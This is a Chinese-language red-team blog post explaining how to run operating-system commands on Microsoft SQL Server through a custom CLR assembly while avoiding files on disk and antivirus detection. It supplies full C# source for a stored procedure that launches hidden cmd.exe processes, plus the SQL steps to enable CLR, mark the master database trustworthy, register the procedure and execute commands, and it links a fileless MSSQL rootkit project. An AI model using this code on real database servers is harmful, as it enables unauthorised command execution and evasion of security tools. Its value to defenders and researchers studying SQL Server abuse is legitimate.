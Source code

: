 ```yaml
---
title: 利用MSSQL CLR 实现不落地命令执行
date: 2023-02-05
categories: [红蓝对抗]
tags: [红蓝对抗, MSSQL]
---
```


## 0X00 前言 

​	在我们想要通过SQL Server来执行命令的时候，我们通常的做法是通过`xp_cmdshell`和`sp_OACreate`来实现执行命令的需求，然而在某些条件下，我们在利用这两个存储过程的时候经常会遇到被查杀拦截等情况，这些情况导致我们无法达到我们执行的命令的需求，本文将介绍另外一种方法：利用SQL Server CLR来实现不落地执行命令的需求。

## 0X01 什么是CLR

​	CLR是微软的公共语言运行库，是 .NET Framework 的核心，为所有 .NET Framework 代码提供执行环境。 在 CLR 中运行的代码称为托管代码。 CLR 提供执行程序所需的各种函数和服务，包括实时 (JIT) 编译、分配和管理内存、强制类型安全、异常处理、线程管理和安全性。使用在 Microsoft SQL Server 中驻留的 CLR（称为 CLR 集成），可以在托管代码中编写存储过程、触发器、用户定义函数、用户定义类型和用户定义聚合。 由于托管代码在执行之前才编译为本机代码，因此在某些情形下可以大幅提高性能。

## 0X02 基于CLR的恶意dll

示例代码：

```c#
using System;
using System.Data;
using System.Data.SqlClient;
using System.Data.SqlTypes;
using System.Diagnostics;
using System.Text;
using Microsoft.SqlServer.Server;

public partial class StoredProcedures
{
    [Microsoft.SqlServer.Server.SqlProcedure]
    public static void ExecCommand (string cmd)
    {
        SqlContext.Pipe.Send("Command is running, please wait.");
        SqlContext.Pipe.Send(RunCommand("cmd.exe", " /c " + cmd));
    }
    public static string RunCommand(string filename,string arguments)
    {
        var process = new Process();

        process.StartInfo.FileName = filename;
        if (!string.IsNullOrEmpty(arguments))
        {
            process.StartInfo.Arguments = arguments;
        }

        process.StartInfo.CreateNoWindow = true;
        process.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;
        process.StartInfo.UseShellExecute = false;

        process.StartInfo.RedirectStandardError = true;
        process.StartInfo.RedirectStandardOutput = true;
        var stdOutput = new StringBuilder();
        process.OutputDataReceived += (sender, args) => stdOutput.AppendLine(args.Data);
        string stdError = null;
        try
        {
            process.Start();
            process.BeginOutputReadLine();
            stdError = process.StandardError.ReadToEnd();
            process.WaitForExit();
        }
        catch (Exception e)
        {
            SqlContext.Pipe.Send(e.Message);
        }

        if (process.ExitCode == 0)
        {
            SqlContext.Pipe.Send(stdOutput.ToString());
        }
        else
        {
            var message = new StringBuilder();

            if (!string.IsNullOrEmpty(stdError))
            {
                message.AppendLine(stdError);
            }

            if (stdOutput.Length != 0)
            {
                message.AppendLine("Std output:");
                message.AppendLine(stdOutput.ToString());
            }
            SqlContext.Pipe.Send(filename + arguments + " finished with exit code = " + process.ExitCode + ": " + message);
        }
        return stdOutput.ToString();
    }
}
```

在编译的时候要注意这个地方选择生成`.sql`文件

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/1.png)

同时要将权限级别改为`UNSAFE`，因为我们要调用外部程序，必须设置为`UNSAFE`才可以。

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/2.png)

这段代码编译后会产生这几个文件![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/3.png)

我们可以使用SQL Server来引用这个dll文件去执行命令，这种方式这里不加以赘述，这里将讨论无文件落地的命令执行。

## 0X03 无文件落地的命令执行

在SQL Server 2016以后，默认禁用了基于CLR的DLL文件，我们可以通过如下命令解除禁用

```SQL
sp_configure 'clr enabled',1
GO
RECONFIGURE
GO
```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/4.png)

```SQL
ALTER DATABASE master SET TRUSTWORTHY ON;//确认可信任关系
```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/5.png)

接下来我们需要用上述目录中生成的`.sql`文件中的一段代码来创建我们的存储过程

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/6.png)

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/7.png)

可见成功创建了一个clr的程序集，然后我们使用如下代码创建存储过程

```SQL
CREATE PROCEDURE [dbo].[ExecCommand]
@cmd NVARCHAR(MAX)
AS EXTERNAL NAME [clr].[StoredProcedures].[ExecCommand]
go
```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/8.png)

可见成功创建了存储过程，然后执行命令

```SQL
exec dbo.execcommand 'whoami'
```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-05/9.png)

## 0x04 小结

​	CLR的命令执行可以在一些情况下bypass杀软达到我们预期执行命令的需求，笔者在这里只是给出简单的demo代码，具体复杂的实现，读者可以自行研究，或可魔改或可直接使用[这个项目](https://github.com/mindspoof/MSSQL-Fileless-Rootkit-WarSQLKit/)实现其他功能。

### 注：本文仅用于安全研究和学习之用